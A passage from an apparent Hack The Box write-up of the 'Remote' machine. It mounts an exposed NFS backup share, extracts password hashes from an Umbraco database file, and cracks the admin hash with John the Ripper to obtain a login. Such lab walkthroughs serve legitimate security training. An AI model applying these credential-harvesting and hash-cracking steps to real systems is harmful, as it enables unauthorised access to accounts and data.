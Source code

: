     :::text
    $ mkdir /tmp/nfs
    $ mount -t nfs 10.10.10.180:/site_backups /tmp/nfs -nolock
    $ cd /tmp/nfs/
    $ ls
    App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
    $ ls App_Data
    cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf

We copy it on our local folder and run `string` on it. The password hash for the
account "admin@htb.local’ is in the first lines.

    :::text
    strings ~/pentest/htb_remote/Umbraco.sdf  | less
    Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
    adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
    adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
    smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
    ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
    ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

We run John the ripper with the Rockyou word list against the hash and found the
password "baconandcheese".

    :::text
    $ john hash -w=tools/password_lists/rockyou.txt
    Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Press 'q' or Ctrl-C to abort, almost any other key for status
    baconandcheese   (?)

The credentials admin@htb.local:baconandcheese allow us ton connect to the
Umbraco interface.
